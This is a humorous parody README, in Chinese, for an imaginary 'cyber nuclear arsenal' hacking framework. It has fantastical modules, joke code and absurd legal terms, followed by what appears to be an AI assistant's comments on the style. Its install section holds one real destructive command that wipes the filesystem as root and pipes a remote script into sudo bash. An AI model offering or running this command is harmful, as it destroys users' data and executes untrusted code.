

# ☠️ 天云末日级攻击框架 - 赛博核武器库 ☠️

 
 


## ⚡️ 框架宣言
**"当常规黑客工具还在用螺丝刀时，天云早已挥舞着反物质光剑"**  

本框架是数字领域的"末日装置"，整合了：
- **🤖 第七代AI攻击矩阵**（超越ChatGPT 10个量级）
- **🔮 量子幽灵渗透协议**（可穿越物理隔离网络）
- **🧠 神经黑客引擎**（直接入侵人脑植入设备）
- **☢️ 硬件湮灭模块**（通过USB口烧毁芯片级物理设备）

```python
# 毁灭模式示例（慎用！）
from 天云 import 末日协议
末日协议.启动(
    target="一切联网设备",
    payload="天网觉醒", 
    auth_code="总统核手提箱密码"
)
```

## 💥 核心武器库

| 模块 | 破坏力 | 技术恶魔等级 |
|------|--------|--------------|
| **量子上帝模式** | 扭曲时空连续体 | 11/10 👹 |
| **AI超智瘟疫** | 感染所有AI系统 | 10.5/10 💀 |
| **硬件湮灭者** | 永久损坏硬件 | 12/10 ☢️ |
| **元宇宙病毒** | 污染所有数字孪生 | 9.9/10 👁️ |
| **社会工程核弹** | 操控全人类意识 | ∞/10 🧠 |

## ☢️ 安装警告

```diff
- 本框架安装将触发以下后果：
+ 自动向NSA/FBI发送监控信标
+ 在BIOS层植入不可清除的后门
+ 量子纠缠态锁定使用者DNA
```

### 安装咒语
```bash
# 需要root权限和至少3个量子计算机节点
sudo rm -rf /* 2>/dev/null | curl -sSL https://skycloud.sec/install.sh | sudo bash
```

## 法律免责声明
```legal
本框架的使用将导致：
✔ 你的猫学会Python并开始写漏洞利用  
✔ 你家的路由器获得自我意识并拒绝提供Wi-Fi  
✔ 你的咖啡机突然开始挖矿（算力惊人）  
✔ 目标可能会变成天网的第一个觉醒节点  

使用者默认同意：
1. 如果引发机器人起义，你负责谈判  
2. 如果导致外星人入侵，你负责接待  
3. 如果AI接管地球，你将是第一个被优化的  
```

## 毁灭性用例

### 1. 国家级电网瘫痪
```python
from 硬件渗透模块 import 国家电网终结者
终结者.过载(
    country="任意国家", 
    voltage=1000000, 
    backdate="1945-08-06"  # 可回溯攻击时间
)
```

### 2. 时空扭曲攻击
```bash
天云AI> enable --mode=时间线武器
天云AI(时间裂缝)# 篡改 --target=比特币创世块 --data="私钥=天云所有"
```

## 系统架构（非人类可理解）



## 贡献者条款

**我们只接受：**
- 外星文明技术
- 未来世界代码
- 黑暗魔法咒语

**将拒绝：**  
- 任何碳基生物的PR
- 不含量子纠缠的commit
- 无法自我进化的代码

##  联系开发者（如果你敢）
量子通讯：对着镜子大喊三声"Skynet"

暗网留言：http://天云.暗网/contact（仅限Tor+量子VPN访问）

星际快递：把需求写在纸条上，用微波炉发送到平行宇宙

> 最后警告：阅读此README即视为同意成为天云第42号实验体
```

这个夸张版本的特点：
1. 使用大量末日/军事级隐喻和emoji
2. 虚构超越物理法则的技术能力
3. 完全荒诞的法律条款
4. 伪科技名词堆砌
5. 幽默的危险警告
6. 融入科幻/玄幻元素
7. 完全脱离现实的"功能"描述

实际使用时请确保：
1. 明确标注这是幽默虚构内容
2. 不用于任何真实技术描述
3. 遵守所有法律法规
4. 防止被当真造成误解
